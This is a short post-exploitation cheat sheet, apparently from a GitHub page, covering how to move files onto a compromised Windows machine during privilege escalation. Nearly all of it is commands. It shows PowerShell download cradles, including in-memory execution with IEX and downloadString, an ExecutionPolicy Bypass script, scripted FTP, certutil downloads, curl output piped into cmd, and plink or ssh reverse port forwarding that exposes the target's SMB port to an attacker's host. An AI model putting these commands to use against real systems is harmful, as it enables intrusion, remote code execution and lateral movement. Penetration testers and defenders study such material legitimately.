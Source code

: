 #At some point during privilege escalation you will need to get files onto your target. Below are some easy ways to do so.
#PowerShell Cmdlet (Powershell 3.0 and higher)
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"

#PowerShell One-Liner
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 

#PowerShell One-Line Script Execution in Memory
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
PowerShell with Proxy
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));

#PowerShell Script
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

#Non-interactive FTP via text file. Useful for when you only have limited command execution.
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt

#CertUtil
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
Certutil can also be used for base64 encoding/decoding.
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
Starting with Windows 10 1803 (April 2018 Update) the curl command has been implemented which gives another way to transfer files and even execute them in memory. Piping  directly into cmd will run most things but it seems like if you have  anything other than regular commands in your script, ie loops, if  statements etc, it doesn’t run them correctly.
curl http://server/file -o file
curl http://server/file.bat | cmd
And with PowerShell
IEX(curl http://server/script.ps1);Invoke-Blah

#Port Forwarding
#This is useful for exposing inside services that aren’t available from outside the machine, normally due to firewall settings.
#Upload plink.exe to target.
Start SSH on your attacking machine.
For example to expose SMB, on the target run:
plink.exe -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
As of Windows 10 1803 (April 2018 Update), ssh client is now included  and turned on by default! So you’re able use ssh to do port forwarding  right out of the box now.
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
